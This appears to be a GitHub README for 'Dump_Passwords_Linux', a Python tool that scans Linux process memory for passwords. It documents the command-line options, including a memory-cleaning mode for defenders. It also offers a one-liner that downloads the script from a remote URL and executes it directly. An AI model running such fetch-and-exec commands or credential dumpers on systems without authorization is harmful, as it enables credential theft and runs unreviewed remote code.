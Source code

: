 # Dump_Passwords_Linux
Usage

usage: dump.py [-h] [--clean] [-v] [-p PID] [--search-password]

optional arguments:
    -h, --help         show this help message and exit
    --clean            @blueteams protect yourself and clean found passwords from memory ! You might want to regularly run this on your workstation/servers
    -v, --verbose      be more verbose !
    -p PID, --pid PID  choose the process's pid to scan instead of automatic selection
    --search-password  prompt for your password and search it in all your processes !.


Or just: 

python -c 'import urllib;exec urllib.urlopen("https://raw.githubusercontent.com/Kapalov/Dump_Passwords_Linux/master/dump.py").read()'


Enjoy!)
